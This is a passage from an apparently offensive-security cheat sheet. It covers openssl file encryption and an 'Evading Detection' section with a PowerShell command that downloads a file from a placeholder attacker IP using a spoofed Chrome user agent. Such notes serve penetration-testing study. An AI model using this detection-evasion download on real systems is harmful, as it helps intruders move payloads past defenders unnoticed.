openssl enc -aes256 -iter 100000 -pbkdf2 -in <FILE> -out <ENCRYPTED FILE>
```

Decrypting file   

```bash
openssl enc -d -aes256 -iter 100000 -pbkdf2 -in <ENCRYPTED FILE> -out <FILE>                    
```

</details>
</details>
</details>

---

<details>
<summary><h1>👻 Evading Detection</h1></summary>

&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>Changing User Agent</h2></summary>

**Listing out User Agents**

```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

**Request with Chrome User Agent**
```powershell
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome

Invoke-WebRequest http://<IP>/<FILE> -UserAgent $UserAgent -OutFile "C:\Users\Public\<OUTPUT FILE>"
```

</details>
</details>

---

📘 **Next step:** Continue with [SHELLS & PAYLOADS](./05-shells-payloads.md)

